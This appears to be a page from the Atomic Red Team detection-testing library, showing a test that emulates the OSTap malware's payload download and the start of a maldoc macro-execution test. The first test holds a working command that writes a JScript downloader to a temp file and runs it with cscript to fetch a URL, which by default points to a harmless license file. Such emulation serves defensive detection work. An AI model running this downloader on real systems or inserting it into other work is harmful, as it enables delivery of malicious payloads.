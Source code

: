 


<br/>
<br/>

## Atomic Test #2 - OSTap Payload Download
Uses cscript //E:jscript to download a file

**Supported Platforms:** Windows


**auto_generated_guid:** 3f3af983-118a-4fa1-85d3-ba4daa739d80





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| script_file | File to execute jscript code from | path | %TEMP%&#92;OSTapGet.js|
| file_url | URL to retrieve file from | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo var url = "#{file_url}", fso = WScript.CreateObject('Scripting.FileSystemObject'), request, stream; request = WScript.CreateObject('MSXML2.ServerXMLHTTP'); request.open('GET', url, false); request.send(); if (request.status === 200) {stream = WScript.CreateObject('ADODB.Stream'); stream.Open(); stream.Type = 1; stream.Write(request.responseBody); stream.Position = 0; stream.SaveToFile(filename, 1); stream.Close();} else {WScript.Quit(1);}WScript.Quit(0); > #{script_file}
cscript //E:Jscript #{script_file}
```

#### Cleanup Commands:
```cmd
del #{script_file} /F /Q >nul 2>&1
```





<br/>
<br/>

## Atomic Test #3 - Maldoc choice flags command execution
This Test uses a VBA macro to execute cmd with flags observed in recent maldoc and 2nd stage downloaders. Upon execution, CMD will be launched.
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

**Supported Platforms:** Windows


**auto_generated_guid:** 0330a5d2-a45a-4272-a9ee-e364411c4b18
